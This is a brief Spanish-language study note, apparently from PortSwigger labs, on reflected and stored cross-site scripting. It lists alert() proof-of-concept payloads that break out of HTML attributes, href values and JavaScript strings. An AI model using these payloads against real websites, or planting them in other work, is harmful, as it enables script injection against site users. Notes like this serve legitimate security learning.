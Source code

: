 
# XSS Reflejado y almacenado con codificación HTML

Tags: #XSS #PortSwigger #JavaScript #XSS-Stored #XSS-Reflected 

## XSS reflejado en atributo con corchetes 

```javascript 
// Se evade pero la web encodea el mayor y menor que '><'
	"> <script>alert(0)</script> 

// Cerramos el primer campo con ", despues con la segunda " cerramos la ultima " y se coloca la instrucción de pasar el cursos por encima del campo muestre una ventana emergente 
	" onmouseover="alert(0) 
```

## XSS almacenado en 'href' con comillas modificadas 

```javascript 
	javascript:alert(0)      // Se coloca en el apartado del sitio web 
``` 

## XSS reflejado en string JS con corchetes codificados 

```javascript 
// El input se ejecuta dentro de una función en JS y para que funcione de debe de declarar alguna variable 
	test'; alert(0); var test='probando 
	test'; alert(0); let test='probando
```